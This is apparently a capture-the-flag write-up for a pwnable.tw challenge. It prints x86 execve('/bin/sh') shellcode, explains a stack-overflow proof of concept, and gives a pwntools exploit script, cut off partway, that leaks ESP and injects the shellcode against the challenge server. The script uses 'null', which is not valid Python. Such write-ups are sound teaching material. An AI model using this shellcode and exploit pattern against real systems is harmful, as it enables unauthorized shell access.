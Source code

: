 # Shellcode.

```assembly
mov eax, 0
push eax # Push /bin/sh\0 part by part
push 0x68732f2f
push 0x6e69622f
mov ebx, esp # First argument set to /bin/sh\0
mov ecx, eax # Second argument is 0
mov edx, eax # Third argument is 0
mov al, 0xb # SYS_execve(const char *pathname, char *const argv[], char *const envp[])
int 0x80
xor eax, eax
inc eax # SYS_exit() syscall gracefully shutdowns program
int 0x80
```

Shellcode is pretty straightforward it launches `/bin/sh` child process using `execve`, so you can use this program like interactive shell.

# Proof of concept.

Proot of concept works in 3 steps.

1. Send payload to get ESP register.
2. Wait while program asks for input again.
3. Send `0x14` bytes padding + ESP register + shellcode.

Padding is required, because 14 bytes of stack are cleared. ESP register content on top of stack will force program to start executing code on the stack, after `ret` instruction.

```python

#!/bin/python
from pwn import *
from binascii import hexlify


def main():
    payload_get_esp = null
    shellcode = null

    with log.progress("Loading payloads...") as p:
        payload_get_esp = open("get_esp.bin", "rb").read()
        shellcode = open("shellcode.bin", "rb").read()
        p.success()

    #conn = remote('127.0.0.1', 2323)
    conn = remote("chall.pwnable.tw", 10000)

    context.terminal = ["gnome-terminal", "-e"]
    #gdb.attach("start")

    with log.progress("Receiving initial input") as p:
        p.success("`%s`" % conn.recv(0x15).decode())

    esp = null
    with log.progress("Sending payload to get  ESP register") as p:
        conn.send(prepare(payload_get_esp))
        esp = int.from_bytes(conn.recv(0x100)[:5], byteorder="little")
        p.success('Done ESP=%s' % hex(esp))

    with log.progress("Sending shellcode") as p:
        conn.send(prepare(int.to_bytes(
```